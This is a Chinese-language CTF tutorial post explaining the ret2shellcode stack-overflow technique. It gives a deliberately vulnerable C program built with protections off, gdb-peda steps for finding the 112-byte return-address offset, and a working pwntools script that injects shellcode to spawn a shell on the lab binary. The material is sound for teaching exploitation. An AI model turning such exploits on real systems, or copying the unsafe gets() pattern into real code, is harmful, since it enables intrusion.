 ```yaml
---
title: ret2shellcode攻击技术示例
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2shellcode？

ret2shellcode 即 return to shellcode，跟ret2text类似，但是众所周知，在大多数程序中并没有像system("/bin/sh")这样可以直接利用的代码，因此，在没有可以直接利用的代码片段时，我们可以尝试输入一段shellcode，然后向返回地址写入shellcode地址，那么当程序返回时，就可以跳转到shellcode继续执行。

由于shellcode是在buf缓冲区里被执行，因此我们需要保证程序没有开启NX(No executable)保护，我们可以在gcc编译时添加*-z execstack*选项来关闭该保护。

# ret2shellcode示例代码

``` c
//gcc -m32 -fno-stack-protector -z execstack ret2shellcode.c -o ret2shellcode
#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```

本节示例的漏洞程序也可以从此处下载：[ret2shellcode](/files/ret2shellcode)

# 漏洞分析

如源码所示，这次程序依旧使用了不安全的函数gets()接受用户输入。另外在pwntools中已经为我们提供了可用的shellcode，如下：
``` python
shellcode = asm(shellcraft.sh())
```

我的利用方法也和ret2text类似，不过这次我们需要修改的返回地址变成了shellcode的地址，而这次定位返回地址，我们换个花样 :）

首先用gdb挂起程序后，我们使用peda的辅助功能pattern_create生成一系列的字符串，然后将其输入进buf中，因为过长的字符串会导致程序栈溢出，函数会停在返回地址处报错（因为访问了一个错误的地址），因此我们就可以直观地知道返回地址被哪个地方的哪个字符串覆盖了，从而知道buf首地址到返回地址之间的偏移。

``` bash
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
```
因为buf是100，因此我生成了长120的字符串保证栈溢出。接下来我们运行程序后输入这串字符

``` bash
gdb-peda$ run
Starting program: /home/vancir/Downloads/example/ret2shellcode/ret2shellcode
No system for you this time !!!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
bye bye ~
Program received signal SIGSEGV, Segmentation fault.
```
这里我们输入了过长字符串，因此程序提示Segmentation fault，这时我们再看程序的EIP
``` bash
EIP: 0x41384141 ('AA8A')
```
这时的EIP的值为0x41384141，也就是在返回地址上，因为访问了一个错误的地址，所以停了下来。这时我们只需要查询0x41384141('AA8A')在我们之前生成的串中的偏移

``` bash
gdb-peda$ pattern_offset  0x41384141
1094205761 found at offset: 112
```
得到偏移为112

接下来我们再得到buf的首地址(因为我们的shellcode会先输入到buf中执行)，调试的时候在gets(buf)的传参时候可以得到buf的地址，因此我们可以很简单地知道buf的地址为*0x804a080*。

那么我们进行攻击所需要的所有要素都已经收集完成啦

# 攻击代码

``` python
from pwn import *

shellcode = asm(shellcraft.sh())
buf_addr = 0x804a080

payload = ''
payload += shellcode.ljust(112,'A')
payload += p32(buf_addr)

io = process('ret2shellcode')
io.sendline(payload)
io.interactive()
```
